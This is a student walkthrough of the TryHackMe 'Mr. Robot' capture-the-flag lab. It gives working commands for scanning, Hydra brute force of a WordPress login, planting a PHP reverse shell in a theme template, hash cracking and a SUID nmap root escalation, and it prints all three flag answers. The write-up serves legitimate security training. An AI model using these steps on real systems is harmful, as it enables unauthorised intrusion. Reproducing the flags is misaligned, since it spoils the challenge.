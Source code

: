 ```yaml
---
Title: SWS101 report5
categories: [SWS101, report5]
tags: [SWS101]
---
```


# TryHackMe - Mr. Robot CTF
Based on the Mr. Robot show, can you root this box?

This walkthrough details the steps to complete the "Mr. Robot" Capture the Flag (CTF) challenge on TryHackMe. We will find three flags hidden across the target system.

## Reconnaissance
### Port Scan
Perform a Port Scan using RustScan:

    sudo rustscan -a 10.10.185.90 --ulimit 5000 -- -sS -Pn -sV -O -T4 -oN rustscan.txt

Analyze Scan Results:
Ports 80 (HTTP) and 443 (HTTPS) are open.

### Enumeration
Visit the Website:
Open a browser and navigate to http://10.10.185.90. You will encounter a Linux boot sequence simulation with multiple options such as prepare, fsociety, inform, question, wakeup, and join. These options don't reveal useful system information.

Brute Force Hidden Directories with Gobuster:

    gobuster dir --url http://10.10.185.90/ -w /usr/share/wordlists/dirb/common.txt | tee gobuster
Analyze Gobuster Results:

/0 - Blog
/dashboard and /login - WordPress login panel
/readme - A page with content
/robots and /robots.txt - Reveal the location of the first flag

### First Flag
Retrieve the First Flag:

    curl http://10.10.185.90/robots.txt
The content reveals the first flag.

    073403c8a58a1f80d943455fb30724b9

### Initial Access
Approach 1: Brute Force WordPress Login
Download fsociety.dic:

    wget http://10.10.185.90/fsociety.dic
Deduplicate the Wordlist:

    cat fsociety.dic | sort | uniq > wordlist.txt

Determine the Username with Hydra:

    hydra -L wordlist.txt -p admin -f -v 10.10.185.90 -s 80 http-post-form "/wp-login.php:log=^USER^&password=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.185.90%2Fwp-admin%2F&testcookie=1:Invalid username."
The username is ELLIOT.

Determine the Password with Hydra:

    hydra -l ELLIOT -P wordlist.txt -f -v 10.10.185.90 -s 80 http-post-form "/wp-login.php:log=ELLIOT&password=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.84.69%2Fwp-admin%2F&testcookie=1:S=302"
The password is ER28-0652.

### Approach 2: Base64 Decoding
Retrieve and Decode License Key:
    curl http://10.10.185.90/license | base64 --decode
This reveals the credentials:
    elliot:ER28-0652

### Exploitation
Reverse Shell
Set Up Netcat Listener:

nc -nvlp 9000
Prepare PHP Reverse Shell:

    cp /usr/share/webshells/php/php-reverse-shell.php .
Edit the file and change the IP address to your TryHackMe VPN IP (found with ip a l tun0) and the port to 9000.

Upload Reverse Shell to WordPress:
Navigate to the WordPress admin panel, go to Appearance > Theme Editor, and select the 404 Template. Replace the content with the PHP reverse shell code and save.

Trigger the Reverse Shell:
Access a non-existent page, e.g., http://10.10.185.90/404.php, to execute the reverse shell.

Privilege Escalation
Switch to TTY Shell:

    python -c 'import pty;pty.spawn("/bin/bash");'
List Files in Robot's Home Directory:

    ls /home/robot
The directory contains the second flag and a file named password.raw-md5.

Crack MD5 Hash:

    john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 robot.txt
The password is abcdefghijklmnopqrstuvwxyz.

Switch to Robot User:

    su robot
Retrieve the Second Flag:

    822c73956184f694993bede3eb39f959
Find SUID Binaries:

    find / -perm -4000 -user root 2> /dev/null
The binary nmap has the SUID bit set.

Exploit Nmap for Root Shell:

    nmap --interactive
!sh
Retrieve the Third Flag:

    cat /root/key-3-of-3.txt

    04787ddef27c3dee1ee161b21670b4e4
Conclusion
This walkthrough demonstrated how to discover and exploit vulnerabilities on the Mr. Robot target system, ultimately retrieving all three flags.






